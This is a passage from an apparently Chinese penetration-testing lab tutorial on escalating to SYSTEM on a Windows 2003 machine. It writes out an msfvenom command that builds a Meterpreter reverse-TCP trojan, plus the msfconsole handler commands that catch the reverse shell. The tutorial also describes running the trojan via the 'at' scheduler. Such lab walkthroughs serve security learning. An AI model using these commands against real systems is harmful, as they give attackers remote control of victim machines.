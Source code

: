 可以在msf下生成一个木马文件，然后在shell交互中设置at命令进行执行程序，上线后即为system权限。

#### 2.3.2.1. 生成木马文件

通过命令生成一共木马文件，然后将这个木马文件放入2003中去执行，这里其实就是模拟在上传webshell后，上传后门木马文件，然后执行木马文件，只是这里为了方便节省了，直接上传一个木马即可。

至于运行木马就不演示了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f exe > shell.exe
```

![image-20230327105127142](assets/vzptEA3ahDQoRFc.png)

#### 2.3.2.2. 设置监听

这里设置一个监听，用于接收反弹回来的shell。

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 4444 
run
```

![image-20230327110440018](assets/xD6XQ5FRk2jiZIY.png)
